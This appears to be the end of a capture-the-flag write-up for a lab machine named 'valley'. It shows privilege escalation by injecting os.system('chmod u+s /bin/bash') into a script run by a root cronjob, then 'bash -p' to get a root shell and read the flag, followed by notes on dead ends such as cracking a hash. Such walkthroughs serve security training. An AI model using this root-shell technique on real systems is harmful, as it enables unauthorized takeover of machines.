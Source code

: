 - Since we can edit that file, why don't we trying using it to spawn a root shell? We can do that by adding the following syntax to the top of the script:
```
import os

os.system("chmod u+s /bin/bash")
```

- Now we can wait a little bit for the cronjob to run. After a minute, we can enter `bash -p` into our terminal and, provided everything went the way it should've, we will see the following:
```
valley@valley:/$ bash -p
bash-5.0# whoami
root
bash-5.0# 
```

- Now all we have to do is `cat /root/root.txt` and we will get the flag.

## Rabbit Holes
- I spent awhile trying to get [LinPEASS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) over onto the machine for some automated enumeration, but I couldn't pull it down directly with cURL since it wasn't installed on the machine and I wasn't root so I couldn't download it. Instead, I downloaded it onto my attacking machine and tried to host it on a simple python webserver and use `wget` to pull it over, but that didn't work either. 
- When trying to crack the hash found in the `strings.txt` file, I kept adding the hexadecimal text that was found underneath it into the string for cracking rather than just the `e6722920bab2326f8217e4`.
- I kept trying to pair the cracked password with usernames like `v0ida` or `k0rHh`, which are strings found near the password hash to successfully authenticate to the `valleyAuthenticator` file. That wasn't needed, since there was another user account on the box called `valley` that hadn't been touched yet. 

